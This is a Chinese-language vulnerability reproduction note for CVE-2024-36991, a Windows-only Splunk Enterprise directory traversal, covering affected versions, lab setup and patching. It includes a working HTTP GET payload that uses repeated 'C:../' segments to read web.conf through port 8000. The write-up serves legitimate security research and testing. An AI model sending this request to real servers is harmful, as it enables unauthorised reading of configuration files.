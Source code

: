 # Splunk Enterprise Windows 平台 messaging 目录遍历漏洞 CVE-2024-36991

## 漏洞描述

Splunk Enterprise 是一款强大的数据分析软件，它允许用户从各种来源收集、索引和搜索机器生成的数据。2024 年 7 月，官方发布安全通告，披露 CVE-2024-36991 Splunk Enterprise Windows 平台 /modules/messaging 目录遍历漏洞。漏洞仅影响 Windows 平台上的 Splunk Enterprise。

参考链接：

- https://advisory.splunk.com/advisories/SVD-2024-0711
- https://research.splunk.com/application/e7c2b064-524e-4d65-8002-efce808567aa
- https://www.sonicwall.com/blog/critical-splunk-vulnerability-cve-2024-36991-patch-now-to-prevent-arbitrary-file-reads

## 漏洞影响

```
9.2.0 <= Splunk Enterprise < 9.2.2
9.1.0 <= Splunk Enterprise < 9.1.5
9.0.0 <= Splunk Enterprise < 9.0.10
```

## 环境搭建

[官网](https://www.splunk.com/en_us/download/previous-releases.html) 下载安装 Splunk Enterprise 9.2.1，搭建完成后，访问 `your-ip:8000`，即可看到 Splunk Enterprise 的登录页面。

![](images/Splunk%20Enterprise%20Windows%20平台%20messaging%20目录遍历漏洞%20CVE-2024-36991/image-20250508172300815.png)

## 漏洞复现

 Splunk Enterprise 中， `8000` 端口 和 `8089` 端口 分别用于 Web UI 和 后台管理 API。可以通过 `8089` 端口查看版本号：

![](images/Splunk%20Enterprise%20Windows%20平台%20messaging%20目录遍历漏洞%20CVE-2024-36991/image-20250508174456478.png)

通过 `8000` 端口读取配置文件 `$SPLUNK_HOME/etc/system/default/web.conf`：

```
GET /en-US/modules/messaging/C:../C:../C:../C:../C:../etc/system/default/web.conf HTTP/1.1
Host: 10.10.11.61:8000
Accept-Encoding: gzip, deflate
Accept: */*
Connection: keep-alive
```

![](images/Splunk%20Enterprise%20Windows%20平台%20messaging%20目录遍历漏洞%20CVE-2024-36991/image-20250508174701876.png)

## 漏洞修复

官方已发布安全更新，建议升级至最新版本。
